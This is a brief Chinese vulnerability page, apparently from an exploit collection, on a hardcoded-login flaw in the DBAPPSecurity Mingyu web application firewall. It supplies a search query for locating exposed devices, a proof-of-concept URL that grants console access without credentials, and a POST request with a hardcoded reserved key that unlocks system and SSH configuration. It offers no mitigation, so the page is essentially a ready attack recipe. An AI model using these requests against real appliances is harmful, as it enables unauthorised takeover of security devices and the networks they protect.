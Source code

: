 # 安恒 明御WEB应用防火墙 report.php 任意用户登录漏洞

## 漏洞描述

安恒 明御WEB应用防火墙 report.php文件存在硬编码设置的Console用户登录，攻击者可以通过漏洞直接登录后台

## 漏洞影响

<a-checkbox checked>安恒 明御WEB应用防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="安恒信息-明御WAF"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1658456619582-0ab677aa-d84e-47b1-96b2-481c66831947.png)

验证POC

```php
/report.m?a=rpc-timed
```

![img](/assets/PeiQi-Wiki/img/1658456645745-b626ae63-660a-4726-ad5d-efd6c4def0ee.png)

再访问主页面跳转配置页面

![img](/assets/PeiQi-Wiki/img/1658456684801-06c03840-87bc-41c5-a234-b8f0aa1ea244.png)

发送请求包配置系统SSH等

```php
POST /system.m?a=reserved
  
key=!@#dbapp-waf-dev-reserved#@!
```

![img](/assets/PeiQi-Wiki/img/1658541896143-bbbe633a-ce06-4e44-bb83-0806a3dde1a6.png)